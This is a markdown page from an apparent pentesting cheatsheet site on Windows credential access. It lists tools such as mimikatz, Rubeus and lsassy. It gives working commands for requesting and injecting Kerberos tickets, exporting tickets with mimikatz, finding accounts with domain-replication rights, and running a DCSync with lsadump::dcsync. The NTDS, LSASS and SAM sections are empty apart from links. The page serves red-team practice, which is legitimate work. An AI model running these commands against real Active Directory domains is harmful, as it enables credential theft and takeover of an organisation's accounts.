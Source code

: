 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-07
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Other tools](#Othertools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [DCSync attack](#DCSyncattack)
* [NTDS.dit dump](#NTDS.ditdump)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 
```powershell
# compilation
```

### <a name='Othertools'></a>Other tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

[Wiki Rubeus](https://github.com/GhostPack/Rubeus)

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='DCSyncattack'></a>DCSync attack

- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
# get the account's SID 
get-netuser $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select objectsid

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl $zdom_dn -ResolveGUIDs  -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# check the ACL permissions
Get-ObjectAcl -Identity $zdom_dn -DomainController $zdom_dc_fqdn -Domain $zdom_fqdn -ResolveGUIDs | ? {$_.ObjectSID -match "S-1-5-21-xxx"}

# run the DCsync
mimikatz.exe privilege:debug
lsadump::dcsync /dc:$zdom_dc /domain:$zdom_fqdn /user:$zlat_user
```

## <a name='NTDS.ditdump'></a>NTDS.dit dump


## <a name='LSASS.exedump'></a>LSASS.exe dump

- [lsassy](https://github.com/Hackndo/lsassy)
- [lsass-shtinkering](https://github.com/deepinstinct/Lsass-Shtinkering)

## <a name='SAMdump'></a>SAM dump
